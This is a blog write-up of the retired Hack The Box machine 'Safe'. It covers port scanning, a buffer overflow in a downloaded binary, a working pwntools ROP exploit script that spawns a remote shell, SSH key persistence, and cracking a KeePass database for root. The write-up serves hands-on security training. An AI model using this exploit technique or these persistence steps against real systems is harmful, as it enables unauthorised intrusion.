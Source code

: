 ```yaml
---
title: Safe -- Hackthebox Writeup 
published: true
ayout: post
date: 2021-08-2 18:54 +0600
permalink: /Safe-Hackthebox-Writeup/
tags: Safe -- Hackthebox Writeup 
featured: false
---
```


# [](#header-1)Safe -- Hack the Box write-up

**Safe** is a _retired_ machine from Hack the Box. It is rated as a easy machine, however, the user own difficulty is rated medium-hard (probably for containing a ROP exploitable binary, uncommon in this platform.

![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2020-03-19-Hackthebox_Safe/0.png)


## [](#header-2)Enumeration

First, let's start running a quick scan to discover which ports are open.
`nmap -T5 -n -Pn -oG fastscan -p- 10.10.10.147`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 16:00 EDT                                                                                                                                 
Warning: 10.10.10.147 giving up on port because retransmission cap hit (2).                                                                                                                                     
Nmap scan report for 10.10.10.147                                                                                                                                                                               
Host is up (0.049s latency).                                                                                                                                                                                    
Not shown: 65532 closed ports                                                                                                                                                                                   
PORT     STATE SERVICE                                                                                                                                                                                          
22/tcp   open  ssh                                                                                                                                                                                              
80/tcp   open  http                                                                                                                                                                                             
1337/tcp open  waste                                                                                                                                                                                            
                                                                                                                                                                                                                
Nmap done: 1 IP address (1 host up) scanned in 113.76 seconds   
```
Now, let's look more in depth what is the service associated with each port `nmap -T5 -n -p 22,80,1337 -sC -sV -oG indepthscan 10.10.10.147`:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 17:17 EDT
Nmap scan report for 10.10.10.147
Host is up (0.052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
1337/tcp open  waste?
| fingerprint-strings:
|   DNSStatusRequestTCP:
|     17:30:31 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   DNSVersionBindReqTCP:
|     17:30:26 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   GenericLines:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   GetRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? GET / HTTP/1.0
|   HTTPOptions:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / HTTP/1.0
|   Help:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? HELP
|   NULL:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RPCCheck:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RTSPRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / RTSP/1.0
|   SSLSessionReq:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   TLSSessionReq, TerminalServerCookie:
|     17:30:37 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|_    What do you want me to echo back?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.80%I=7%D=3/19%Time=5E73E16E%P=x86_64-pc-linux-gnu%r(NU
SF:LL,3E,"\x2017:30:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x
SF:20average:\x200\.00,\x200\.00,\x200\.00\n")%r(GenericLines,63,"\x2017:3
SF:0:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200
SF:\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20ec
SF:ho\x20back\?\x20\r\n")%r(GetRequest,71,"\x2017:30:21\x20up\x20\x203:13,
SF:\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.0
SF:0\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20GET\x20
SF:/\x20HTTP/1\.0\r\n")%r(HTTPOptions,75,"\x2017:30:21\x20up\x20\x203:13,\
SF:x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00
SF:\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIONS\
SF:x20/\x20HTTP/1\.0\r\n")%r(RTSPRequest,75,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIO
SF:NS\x20/\x20RTSP/1\.0\r\n")%r(RPCCheck,3E,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n")%r(DNSVersionBindReqTCP,3E,"\x2017:30:26\x20up\x20\x203:13,\x20\
SF:x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")
SF:%r(DNSStatusRequestTCP,3E,"\x2017:30:31\x20up\x20\x203:13,\x20\x200\x20
SF:users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")%r(Help,
SF:67,"\x2017:30:36\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20a
SF:verage:\x200\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me
SF:\x20to\x20echo\x20back\?\x20HELP\r\n")%r(SSLSessionReq,64,"\x2017:30:36
SF:\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00
SF:,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x
SF:20back\?\x20\x16\x03\n")%r(TerminalServerCookie,63,"\x2017:30:37\x20up\
SF:x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\
SF:.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\
SF:?\x20\x03\n")%r(TLSSessionReq,64,"\x2017:30:37\x20up\x20\x203:13,\x20\x
SF:200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n\nW
SF:hat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20\x16\x03\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```

Hmmm... Looks like we have a l33t port open. We'll see what is running there later. 
By now, time to start my reconaissance part.

## [](#header-2)Recon

First, let's check if any of the running services can be exploited remotely.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/searchsploit.PNG)

Nothing interesting so far. Better to see what is running under port 80.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/port80.PNG)

Hurray, a boring **Apache** default page... Fuzzing does not give us any interesing information either.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

However, reviewing the page source code gives us finally some valuable info! It seems that an app called 'myapp' (duh) is running under port 1337. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

Also, we can download it by browsing into http://10.10.10.147/myapp. `curl -v -XGET http://10.10.10.147/myapp -o myapp` 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/download_bin.PNG)

It smells like a challenge similar to the BOF from the OSCP :). We need to confirm it sending a large message to the program. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/overflow.PNG)

Yep, we go the buffer overflow. Let's run `checksec` to see if it has any security measures enabled.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/checksec.PNG)

Yikes, **NX enabled** (non-executable stack). We can not simply put our shellcode in the stack to jump and execute it. 

After opening the binary with **Ghidra** and looking into the decompiled code, we can ensure that there exists the buffer overflow as only **112 characters** are reserved for the string.

![](https://github.com/kikoas1995/kikoas1995.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/decompiledC.PNG)
Also, the function system is called, which can allow us to execute remote code via ROP. Obviously, the argument passed to this function is not a shell. It is actually the _uptime_ binary:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/uptime_rdi.PNG)
![](uptime exec)

## [](#header-2)Exploitation

It is time to use some binary exploitation skills. 
We need a way to put `/bin/sh` onto the _rdi_ register and then call the local function `system()`. 
> Note: _rdi_ register always acts as the first argument for the function that will be called. In x86 binaries, arguments were passed pushing registers into the stack.  

Using `objdump` we find a `system()` call in address 0x401040.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/system_addr.PNG)

Now I will use `gef` to inspect the source code main and test functions.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/info_functions.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/disas main tests.PNG)

Apparently, when the `test()` function ends, jumps to the memory address stored in the r13 register, so we need to put there the `system()` call we addressed before. In order to do this we need to look for a ROP gadget where we can store the system call. I will simplify this process using **ropper**:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ropper.PNG)

Looks like `0x0000000000401206` would work for us.

We are almost finishing! We need to overwrite the stack base pointer with our shell, which will be done with the _pattern create_ and _pattern offset_ utilities of `gef`: 

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_create.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_offset.PNG)
So the string `oaaaaaaa` will be in our case a `/bin/sh\x00`. Time to develope our own exploit with the help of **pwntools**.

```python
from pwn import *

p = remote('10.10.10.147', 1337) 
buffer = "A"*112 + "/bin/sh\x00"   # rbp = /bin/sh\x00
buffer += p64(0x401206)            # ROP gadget addr
buffer += p64(0x401040)            # r13 = system() call addr 
buffer += p64(0x000000)            # r14 = blank
buffer += p64(0x000000)            # r15 = blank
buffer += p64(0x401152)            # init() addr

print("Safe(10.10.10.147) HTB machine remote exploit") 
p.sendline(buffer)
p.interactive()
```
It worked!!! :D
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/remoteshell.PNG)

As the SSH service is enabled, I can add my public key to the authorized_keys file on the target:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ssh-keygen.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/sshshell.PNG)

## [](#header-2)Privilege Escalation

Root is easier than user, you'll see. First, Copy every file from the user folder.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/scp.PNG)

Now let's crack the keepass database. We have a list of images which can be a hint that the database key could be one of them. However, in addition to the file, it is protected with a password, so I will use a small wordlist for each image  used to decrypt de database.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/crack_keepass.PNG)

It seems that the IMG_0547.JPG, along with the password 'bullshit', is our entrance to root :).
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/root_pwd.PNG)

Performing a su root with the password retrieved leads us to our beloved root shell. Reading the flags from here is trivial.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/flags.PNG)

